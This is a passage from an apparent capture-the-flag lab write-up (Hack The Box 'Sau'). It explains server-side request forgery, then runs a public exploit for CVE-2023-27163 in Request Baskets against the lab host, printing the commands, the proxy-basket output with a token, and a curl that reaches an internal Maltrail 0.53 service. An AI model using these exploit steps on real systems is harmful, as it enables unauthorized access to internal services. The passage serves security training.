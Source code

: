 ### **Server-side request forgery** 
SSRF is a web security vulnerability that allows an attacker to cause the server-side application to make requests to an unintended location.

In a typical SSRF attack, the attacker might cause the server to make a connection to internal-only services within the organization's infrastructure. In other cases, they may be able to force the server to connect to arbitrary external systems. This could leak sensitive data, such as authorization credentials.

**Further information:** [https://portswigger.net/web-security/ssrf](https://portswigger.net/web-security/ssrf){:target="_blank"}

So as we mentioned in the previous section, the **Requests Basquets** version running on the machine is affected by a **SSRF CVE-2023-27163**, so this might help me to reach other internal services running on the machine.

**In order to exploit this vulnerability we will use below exploit:**

[https://github.com/entr0pie/CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163){:target="_blank"}

Just we need to pass as argument the affected URL and the target URL that we want to access to.

The exploit will create a proxy basket that will allow me to access to http://sau.htb:80 local resource running in the server

```bash
└─# ./CVE-2023-27163.sh http://10.10.11.224:55555/ http://sau.htb:80  
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "dvcvja" proxy basket...
> Basket created!
> Accessing http://10.10.11.224:55555/dvcvja now makes the server request to http://sau.htb:80.
> Authorization: Lr7kTk3KuKHieDXC_iqUboa0XjXQDxkK6CFB2f6BEN90

```

So just we can check it with a curl command
```bash
# curl -X GET http://10.10.11.224:55555/dvcvja
Powered by <b>M</b>altrail (v<b>0.53</b>)</div>
```
And we observe that in the 80 port is running another application called **Maltrail 0.53**

**What is maltrail**

Maltrail is a malicious traffic detection system

More information: [https://github.com/stamparm/maltrail](https://github.com/stamparm/maltrail){:target="_blank"}


So as usual, let’s start checking  if there is any known vulnerability affecting that software 

